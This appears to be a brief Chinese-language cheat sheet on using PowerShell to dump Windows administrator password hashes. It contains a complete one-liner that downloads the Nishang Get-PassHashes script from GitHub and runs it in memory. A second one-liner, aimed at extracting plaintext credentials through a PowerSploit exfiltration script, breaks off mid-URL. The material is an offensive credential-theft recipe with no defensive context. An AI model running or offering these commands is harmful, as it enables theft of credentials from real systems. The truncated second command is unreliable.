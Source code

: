 Powershell Gethash

使用powershell远程调用来抓取管理hash。




在线导hash
powershell IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/samratashok/nishang/master/Gather/Get-PassHashes.ps1');Get-PassHashes


在线导明文
powershell IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/mattifestation/PowerSploit/master/Exfiltration

